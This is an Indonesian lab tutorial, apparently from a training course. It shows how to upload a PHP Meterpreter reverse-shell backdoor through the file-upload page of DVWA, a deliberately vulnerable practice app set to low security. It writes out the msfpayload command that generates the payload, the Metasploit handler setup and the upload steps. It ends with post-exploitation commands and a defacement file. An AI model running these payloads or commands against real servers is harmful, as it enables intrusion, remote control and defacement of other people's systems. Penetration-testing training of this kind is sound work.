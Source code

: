 # Lesson 8 - Upload PHP Backdoor Payload


## Set DVWA dengan low Security
1. Ubah permission folder upload
	1. buka terminal, lalu masukan command:
		* chown root:apache /var/www/html/dvwa/hackable/uploads/
		* chmod 775 /var/www/html/dvwa/hackable/uploads/
		* ls -ld /var/www/html/dvwa/hackable/uploads/
2. Login pada dvwa
	* username: admin
	* password: password
3. Lalu set Security menjadi low
	* klik "DVWA security"
	* set menjadi *low*

![1 set fedora low](https://user-images.githubusercontent.com/17487644/34214252-7e60bd60-e5d4-11e7-98bf-1cef8db4e81f.png)

## Upload PHP Backdoor Payload

1. buat file payload
	* buka terminal
	* mkdir -p /root/backdoor
	* cd /root/backdoor
	* msfpayload php/meterpreter/reverse_tcp LHOST=192.168.1.13 LPORT=4444 R > PHONE_HOME.php
	* ls -l PHONE_HOME.php

![1 bikin msf payload](https://user-images.githubusercontent.com/17487644/34218737-994dc318-e5e1-11e7-83e1-d7746d1cc783.png)

2. Edit PHONE_HOME.php
	* vi PHONE_HOME.php
	* hilangkan tanda # pada file
		* tekan x lalu esc
		* ketik ":wq!"

![2 edit phone home](https://user-images.githubusercontent.com/17487644/34218738-998438d0-e5e1-11e7-9757-e5e6126b6132.png)

3. buka metasploit

![3 run msfconsole](https://user-images.githubusercontent.com/17487644/34218739-99bdd414-e5e1-11e7-8b71-11a697794696.png)

4. lalu start payload, dengan command:
	* msfconsole
	* use exploit/multi/handler
	* set PAYLOAD php/meterpreter/reverse_tcp
	* set LHOST 192.168.1.13
	* set LPORT 4444
	* exploit

![4 start payload](https://user-images.githubusercontent.com/17487644/34218740-99f3f9f4-e5e1-11e7-9cd0-d183204b5c48.png)

![5 login dvwa lalu set low](https://user-images.githubusercontent.com/17487644/34218741-9a33a20c-e5e1-11e7-85f5-dc3649699935.png)

5. buka dvwa
	* login dengan:
		* username: admin
		* password: password
	* lalu set dvwa security menjadi low

![5 login dvwa lalu set low](https://user-images.githubusercontent.com/17487644/34218741-9a33a20c-e5e1-11e7-85f5-dc3649699935.png)

6. pilih upload pada sidebar
	* lalu klik browse
	* lalu pilih PHONE_HOME.php

![6 buka mozila klik upload lalu browse](https://user-images.githubusercontent.com/17487644/34218742-9a694a4c-e5e1-11e7-8dd6-1c4d5ac04195.png)

7. klik upload
	* *lalu akan muncul seperti pada gambar*

![7 backdoor lalu open](https://user-images.githubusercontent.com/17487644/34218743-9ab19130-e5e1-11e7-8c14-9b3524cc71bb.png)

![8 upload phone_home](https://user-images.githubusercontent.com/17487644/34218744-9ae6c21a-e5e1-11e7-9a48-0d2d87bbb96e.png)

8. paste pada notepad sebelumnya

![7 referer cookies notepad](https://user-images.githubusercontent.com/17487644/34217310-c2b0e4b4-e5dd-11e7-8af6-d7c0e873b525.png)

![8 upload phone_home](https://user-images.githubusercontent.com/17487644/34218744-9ae6c21a-e5e1-11e7-9a48-0d2d87bbb96e.png)

9. Lalu buka pada tab baru
	* masukan url ini 
		http://<IP fedora>/dvwa/hackable/uploads/
	* lalu klik PHONE_HOME.php
	* tab akan terus melakukan connecting

![10 ada di folder](https://user-images.githubusercontent.com/17487644/34218746-9b67d47c-e5e1-11e7-90f2-2c00cd7085c7.png)

![10 run phone_home](https://user-images.githubusercontent.com/17487644/34218748-9bc1711c-e5e1-11e7-816c-989ba3597786.png)


10. payload pada msfconsole akan dimulai

![11 setelah run masuk meterpreter](https://user-images.githubusercontent.com/17487644/34218751-9c251398-e5e1-11e7-9fe9-d4ae056857de.png)

10. jalankan command ini:
	1. shell
	2. uptime
	3. pwd
	4. whoami
	5. w
	6. echo "Hacked at <WAKTU>, by <NAMA>" > hacked.html
	7. ls -l

![12 jalanin semua sisa command](https://user-images.githubusercontent.com/17487644/34218752-9c7dfc42-e5e1-11e7-85bf-474616f5782f.png)

## Bukti Selesai Lesson 8
	* buka url:
		http://<IP fedora>/dvwa/hackable/uploads/hacked.html
	* akan tampil file html yang telah dibuat

![13 bukti akhir](https://user-images.githubusercontent.com/17487644/34218754-9cb4a724-e5e1-11e7-8c81-538cd41e2938.png)